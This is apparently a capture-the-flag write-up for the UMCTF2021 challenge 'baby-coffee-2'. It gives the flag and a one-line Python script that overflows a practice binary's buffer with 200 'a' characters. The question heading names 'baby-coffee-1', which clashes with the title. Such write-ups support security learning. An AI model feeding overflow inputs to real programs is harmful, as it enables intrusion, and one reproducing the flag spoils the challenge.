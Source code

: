
# UMCTF2021 - baby-coffee-2

- Write-Up Author: RB916120 \[[MOCTF](https://www.facebook.com/MOCSCTF)\]

- Flag:MOCSCTF{d0n7_l37_7h3m_pu7_700_much_c0ff33_w1ll_0v3rfl0w3d!!}

## **Question:**
baby-coffee-1
[baby-coffee-1](./bin/coffee)
## Write up

---

overflow the buffer
```python
#!/bin/python
print 'a'*200
```